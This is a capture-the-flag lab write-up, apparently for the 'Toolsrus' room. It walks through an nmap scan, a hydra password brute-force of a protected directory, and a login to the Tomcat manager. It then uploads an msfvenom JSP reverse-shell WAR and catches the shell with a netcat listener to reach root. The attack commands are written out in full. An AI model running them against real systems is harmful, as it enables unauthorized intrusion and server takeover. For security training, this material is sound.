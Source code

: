 # Toolsrus

### Nmap Scan Results ->

We first always run a nmap scan with whatever way you like to run your scans you can also use masscan if you like or any scanner i just run a normal nmap scan with the -A to get all information i can

```

Nmap scan report for 10.10.77.141
Host is up (0.047s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 64:90:07:2c:ce:9a:53:02:4b:52:29:02:36:95:99:6f (RSA)
| 256 1c:39:7e:a3:2d:20:0d:fe:39:b2:d1:1f:2e:9f:81:ee (ECDSA)
|\_ 256 f6:b2:7f:69:d1:06:82:1d:d8:79:77:06:fc:7f:7b:6b (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|\_http-server-header: Apache/2.4.18 (Ubuntu)
|\_http-title: Site doesn't have a title (text/html).
1234/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|\_http-favicon: Apache Tomcat
|\_http-server-header: Apache-Coyote/1.1
|\_http-title: Apache Tomcat/7.0.88
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
|\_ajp-methods: Failed to get a valid response for the OPTION request
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )

```

### Directory Busting and Brute Forcing

We use Dirtbuster to do directory busting on this one and we can see that there two weird files here one is Guidelines and the other is protected.And Protected one is what is protected by a username and password and we go to guidelines we see a name there and that name is bob so we can maybe bruteforce using hydra and using bob as the username and see if we can make our way in and we can use hydra with this syntax →

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt $IP http-get "/protected"
```

and here after brute forcing we see that the password is bubbles

### Exploitation

And now it says the password has transferred to another port which when we traverse to we come across a apache tomcat manager which is soo sooo dangerous to have like that and now we use the same credentials to log in to the manager and after looking around a little we can see we can upload some stuff here (files with WAR extension ) so now if you want you can use metasploit and get like a cool meterpreter shell but if you wanna do it to practice for OSCP i would recommend using msfvenom to make your own payload with this code:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IP LPORT=1234 -f war > shell.war
```

You can find a lot of these payload cheat sheets on this site right here : [Msf Venom Cheat Sheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

and then lets just upload this war file to the server through the tomcat manager and use our terminal to listen with Netcat on the port we defined which in this case was 1234 for us and the syntax for that is

```
nc -nvlp 1234
```

and thats it will get a shell for you and now you can check by doing whoami to see that you are root and then traverse into root directory and cat out the flag
